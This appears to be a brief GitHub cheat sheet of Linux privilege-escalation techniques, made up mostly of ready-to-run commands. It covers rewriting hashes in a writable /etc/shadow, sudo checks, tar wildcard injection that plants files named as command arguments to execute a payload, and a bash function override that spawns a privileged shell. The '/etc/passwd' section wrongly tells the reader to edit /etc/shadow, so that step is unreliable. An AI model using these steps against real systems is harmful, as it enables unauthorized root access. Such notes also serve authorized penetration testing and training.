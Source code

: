 # Linux Privilege Escalation

## Writable /etc/shadow

```bash
# Generate hash sha512crypt
mkpasswd -m sha-512 some-password-here

# Edit /etc/shadow and change hash
vim /etc/shadow
```

## Writable /etc/passwd

```bash
# Generate password for /etc/passwd
openssl passwd some-password-here

# Edit /etc/shadow and change hash
vim /etc/shadow
```

## Sudo escalation

```bash
# Check programs allowed
sudo -l
```

[https://gtfobins.github.io](https://gtfobins.github.io)

## Tar escalation

If some script is using some like: `tar czf file.tar.gz *`.

```bash
touch /home/user/--checkpoint=1
touch /home/user/--checkpoint-action=exec=shell.elf
```

## Abusing Shell Features

Bash `<4.2-048` you can define shell functions to overwrite paths.

```bash
function /usr/sbin/service { /bin/bash -p; }
export -f /usr/sbin/service
./run/your/app
```

